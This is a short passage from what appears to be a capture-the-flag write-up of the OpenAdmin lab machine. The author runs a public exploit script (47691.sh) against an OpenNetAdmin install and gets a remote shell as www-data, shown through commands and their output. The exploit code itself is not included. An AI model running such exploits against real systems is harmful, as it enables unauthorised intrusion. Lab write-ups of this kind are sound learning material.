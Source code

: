 There is actually an exploit for the exact version we have and with it we can achieve remote code execution. The script is in DOS mode so we have to quickly convert it so that it runs properly.
```bash
dos2unix [47691.sh](<http://47691.sh/>)
dos2unix: converting file [47691.sh](<http://47691.sh/>) to Unix format...
# ./47691.sh <http://openadmin.htb/ona/>
$ whoami
www-data
$ pwd
/opt/ona/www
```
